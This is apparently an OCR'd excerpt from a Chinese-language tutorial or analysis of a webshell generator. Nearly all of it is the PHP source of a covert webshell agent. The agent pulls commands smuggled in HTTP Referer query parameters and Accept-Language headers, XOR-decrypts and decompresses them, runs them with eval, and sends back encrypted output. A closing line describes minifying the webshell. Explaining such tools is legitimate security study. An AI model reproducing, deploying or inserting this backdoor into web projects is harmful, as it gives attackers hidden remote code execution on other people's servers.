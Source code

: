 		function x($t,$k){
			$c=strlen($k);
			$l=strlen($t);
			$o="";
			for($i=0;$i<$l;){
				for($j=0;($j<$c&&$i<$l);$j++,$i++)
				{
					$o.=$t{$i}^$k{$j};
				}
			}
			return $o;
		}

		$r=$_SERVER;
		$rr=@$r["HTTP_REFERER"];
		$ra=@$r["HTTP_ACCEPT_LANGUAGE"];

		if($rr&&$ra){
		    $u=parse_url($rr);
		    parse_str($u["query"],$q);
			$q=array_values($q);
			preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);

			if($q&&$m){
				@session_start();

				$s=&$_SESSION;
				$ss="substr";
				$sl="strtolower";

				$i=$m[1][0].$m[1][1];
				$h=$sl($ss(md5($i.$kh),0,3));
				$f=$sl($ss(md5($i.$kf),0,3));

				$p="";
				for($z=1;$z<count($m[1]);$z++) $p.=$q[$m[2][$z]];

				if(strpos($p,$h)===0){
					$s[$i]="";
					$p=$ss($p,3);
				}

				if(array_key_exists($i,$s)){

					$s[$i].=$p;

					$e=strpos($s[$i],$f);
					if($e){
						$k=$kh.$kf;
						ob_start();
						@eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));
						$o=ob_get_contents();
						ob_end_clean();
						$d=base64_encode(x(gzcompress($o),$k));
						print("<$k>$d</$k>");
						@session_destroy();
					}
				}
			}
		}
3. <code> minified_agent = utils.code.minify_php(agent)</code>对原始的webshell进行"净化"操作，去除里面"\n\t"等特殊字符。处理完的源码为：<br>
